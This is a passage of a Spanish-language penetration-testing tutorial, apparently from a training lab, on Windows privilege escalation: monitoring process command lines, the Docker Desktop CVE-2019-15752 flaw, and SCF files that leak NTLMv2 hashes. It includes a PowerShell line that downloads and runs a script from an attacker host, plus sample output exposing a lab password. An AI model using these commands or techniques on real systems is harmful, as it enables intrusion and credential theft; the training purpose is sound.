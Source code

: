 ### Running Monitor Script on Target Host

Podemos alojar el script en nuestra máquina de ataque y ejecutarlo en el host objetivo de la siguiente manera.

```r
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1') 

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>      
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>      
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>      
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>       
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=
```

Esto es exitoso y revela la contraseña del usuario de dominio `sqlsvc`, que luego podríamos usar para obtener acceso al host SQL02 o posiblemente encontrar datos sensibles como credenciales de bases de datos en el compartido `backups`.

---

## Vulnerable Services

También podemos encontrarnos en situaciones donde caemos en un host que ejecuta una aplicación vulnerable que se puede utilizar para elevar privilegios mediante la interacción del usuario. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e) es un gran ejemplo de esto. Esta era una vulnerabilidad en Docker Desktop Community Edition antes de la versión 2.1.0.1. Cuando esta versión en particular de Docker se inicia, busca varios archivos diferentes, incluyendo `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., que no existen con una instalación de Docker. El programa busca estos archivos en `C:\PROGRAMDATA\DockerDesktop\version-bin\`. Este directorio estaba mal configurado para permitir acceso de escritura completo al grupo `BUILTIN\Users`, lo que significa que cualquier usuario autenticado en el sistema podría escribir un archivo en él (como un ejecutable malicioso).

Cualquier ejecutable colocado en ese directorio se ejecutaría cuando a) la aplicación Docker se inicie y b) cuando un usuario se autentique usando el comando `docker login`. Aunque un poco más antiguo, no está fuera del ámbito de posibilidad encontrarse con una estación de trabajo de un desarrollador que ejecute esta versión de Docker Desktop, de ahí la importancia de enumerar a fondo el software instalado. Aunque esta falla en particular no nos garantizaría acceso elevado (ya que depende de un reinicio del servicio o la acción del usuario), podríamos plantar nuestro ejecutable durante una evaluación a largo plazo y verificar periódicamente si se ejecuta y nuestros privilegios se elevan.

---

## SCF on a File Share

Un Shell Command File (SCF) es usado por Windows Explorer para moverse arriba y abajo en los directorios, mostrar el escritorio, etc. Un archivo SCF puede ser manipulado para que la ubicación del archivo de íconos apunte a una ruta UNC específica y hacer que Windows Explorer inicie una sesión SMB cuando se accede a la carpeta donde reside el archivo .scf. Si cambiamos el IconFile a un servidor SMB que controlamos y ejecutamos una herramienta como [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) o [InveighZero](https://github.com/Kevin-Robertson/InveighZero), a menudo podemos capturar hashes de contraseñas NTLMv2 para cualquier usuario que navegue por el compartido. Esto puede ser particularmente útil si obtenemos acceso de escritura a un compartido de archivos que parece ser muy utilizado o incluso a un directorio en la estación de trabajo de un usuario. Podríamos capturar el hash de la contraseña de un usuario y usar la contraseña en texto claro para escalar privilegios en el host objetivo, dentro del dominio, o ampliar nuestro acceso/obtener acceso a otros recursos.
